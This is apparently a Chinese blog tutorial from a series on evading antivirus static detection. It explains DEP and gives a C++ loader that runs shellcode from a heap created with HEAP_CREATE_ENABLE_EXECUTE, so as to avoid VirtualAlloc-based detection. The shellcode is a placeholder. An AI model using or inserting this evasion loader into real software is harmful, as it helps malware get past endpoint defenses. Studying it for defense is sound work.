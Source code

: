 ```yaml
---
date: "2020-11-29T00:00:00Z"
description: 本节课，使用HeapCreate API来关闭DEP保护，获取在堆上的代码执行权限，从而绕过对VirtualAlloc的检测。
title: 静态恶意代码逃逸（第九课）
url: /archivers/2020-11-29/2
---
```


代码将会上传至Github，方便读者下载研究 : https://github.com/Rvn0xsy/BadCode

## 0x01 数据执行保护（DEP）

DEP(Data Execution Prevention)即“ 数据执行保护”，这是Windows的一项安全机制，主要用来防止病毒和其他安全威胁对系统造成破坏。 微软从Windows XP SP2引入了该技术，并一直延续到今天。

### 为什么要有DEP

在Windows Xp SP2 之前的时代，缓冲区溢出漏洞利用门槛太低了，只要发现有缓冲区溢出漏洞，就可以直接稳定利用，攻击者只需要将Shellcode不断写入堆栈，然后覆盖函数返回地址，代码就可以在堆栈中执行。但堆栈的用途主要是保存寄存器现场，提供一个函数运行时的存储空间，极少数需要代码在堆栈中执行，于是微软为了缓解类似的情况，发明了DEP保护机制，用于限制某些内存页不具有可执行权限。

## 0x02 如何绕过DEP

`VirtualProtect`这个API能够更改内存页的属性为可执行或不可执行，对于二进制漏洞利用来说，溢出的时候，把返回地址设计为`VirtualProtect`的地址，再精心构造一个栈为调用这个API的栈，就可以改变当前栈的内存页的属性，使其从"不可执行"变成"可执行"。

## 0x03 举一反三

由此说来，Shellcode执行其实也需要一个可执行的内存页，那么还有哪些API能够构造一个可执行的内存页呢？

`HeapCreate`可以在进程中创建辅助堆栈，并且能够设置堆栈的属性：

```c
HANDLE WINAPI HeapCreate(
__in DWORD flOptions,
__in SIZE_T dwInitialSize,
__in SIZE_T dwMaximumSize );
```

第一个参数`flOptions`用于修改如何在堆栈上执行各种操作。
你可以设定`0`、`HEAP_NO_SERIALIZE`、`HEAP_GENERATE_EXCEPTIONS`、`HEAP_CREATE_ENABLE_EXECUTE`或者是这些标志的组合。


- `HEAP_NO_SERIALIZE`：对堆的访问是非独占的，如果一个线程没有完成对堆的操作，其它线程也可以进程堆操作，这个开关是非常危险的，应尽量避免使用。
- `HEAP_GENERATE_EXCEPTIONS`：当堆分配内存失败时，会抛出异常。如果不设置，则返回NULL。
- `HEAP_CREATE_ENALBE_EXECUTE`：堆中存放的内容是可以执行的代码。如果不设置，意味着堆中存放的是不可执行的数据。

看到`HEAP_CREATE_ENALBE_EXECUTE`相信很多人能够恍然大悟，我们的Shellcode可以存入这个辅助堆栈中，然后创建一个线程运行它即可。

## 0x04 Shellcode执行

```c++
#include <iostream>
#include <Windows.h>

int main()
{
	char shellcode[] = "123";

	HANDLE hHep = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE | HEAP_ZERO_MEMORY, 0, 0);

	PVOID Mptr = HeapAlloc(hHep, 0, sizeof(shellcode));

	RtlCopyMemory(Mptr, shellcode, sizeof(shellcode));
	DWORD dwThreadId = 0;
	HANDLE hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)Mptr, NULL, NULL, &dwThreadId);
	WaitForSingleObject(hThread, INFINITE);

    std::cout << "Hello World!\n";
}
```

上方的例子中，我将shellcode替换为了其他字符串，因为我觉得shellcode混淆是另外一回事。


![2020-11-29-17-41-52](https://images.payloads.online/a834c32c-4f5f-11ec-b9a7-00d861bf4abb.png)

> 样本链接：https://www.virustotal.com/gui/file/1db88905be721e2b279f8f9a6dad1fbf945311b50cc79378d9f69cec5bbe2f6a/detection
